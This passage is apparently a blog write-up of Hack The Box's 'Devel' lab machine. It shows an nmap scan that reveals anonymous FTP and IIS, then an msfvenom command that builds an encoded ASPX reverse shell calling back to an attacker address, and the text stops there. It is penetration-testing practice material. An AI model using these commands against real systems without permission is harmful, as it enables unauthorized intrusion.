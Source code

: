 ```yaml
---
layout: post
title: Owning 'Devel' the manual/non-metasploit way.
---
```


01 January 2020

[@initinfosec](https://twitter.com/initinfosec)

## enumeration

### nmap

Initial scan shows port 21 and 80. FTP on 21 is open for anonymous logon.

```
╭─initinfosec@theMachine ~/writeups/HTB/devel/enumeration
╰─➤  sudo nmap -sS -sV -p- -O -oA devel 10.10.10.5                                1 ↵
Starting Nmap 7.80SVN ( https://nmap.org ) at 2019-12-30 16:05 CST
Nmap scan report for 10.10.10.5
Host is up (0.045s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.45 seconds

```
&nbsp;
## initial exploitation & user shell
&nbsp;
Since FTP appears to be open, I will see if I can upload a reverse shell file. Since IIS, I will try aspx first, if that does not work, then try asp or something else. Guessing on the arch here, if x86 fails out, i'll try x64. I'm sure there's a way to find the arch version via banner grab, something to look into later.

```
╭─initinfosec@theMachine ~/writeups/HTB/devel/enumeration
╰─➤  sudo msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.14.50 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx
[sudo] password for initinfosec: 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of aspx file: 2874 bytes
```
